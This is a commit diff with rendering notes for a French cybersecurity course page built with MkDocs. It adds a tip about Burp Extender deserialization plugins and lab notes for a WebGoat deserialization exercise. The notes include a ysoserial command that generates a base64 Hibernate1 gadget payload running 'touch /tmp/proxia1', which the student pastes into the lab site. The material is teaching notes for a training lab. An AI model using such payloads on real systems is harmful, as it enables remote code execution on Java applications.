

Before and after one commit to louisonsarlinmagnus/cours-isen, an MkDocs documentation site: the page built from docs/tech-cybersecurite.md, in a window 1280 px wide and 900 px high, scrolled down 6836 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7303 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
cybersécu et ajout cheat sheet

````diff
--- a/docs/tech-cybersecurite.md
+++ b/docs/tech-cybersecurite.md
@@ -1,4 +1,10 @@
 #<center>Cyber-Sécurité</center>
+
+## Tips
+
+!!! Ajout de plugins
+    Dans Extender il est aisément possible d'ajouter des plugins,
+    Notamment le Déserialiser utile pour le TP #deserialization
 
 ##Mise en jambes
 Faites de l'analyse de risque pour déterminer si on fait de la sécurité
@@ -312,3 +318,13 @@
 
 action=DeleteStaff
 ```
+
+#### Déserialization
+
+`java -Dhibernate5 -jar ysoserial-0.0.6-SNAPSHOT-all.jar Hibernate1 "touch /tmp/proxia1" | base64 -w0 > webgoat_payload1_touch.txt`
+
+On ouvre un shell dans le dossier LabWebSecu
+
+Ça créer un fichier txt, la ou on est
+
+On copie ce qu'il y a dans le txt dans le site
````
Also changed, not shown: docs/mdCheat.md (+14 -6 lines).
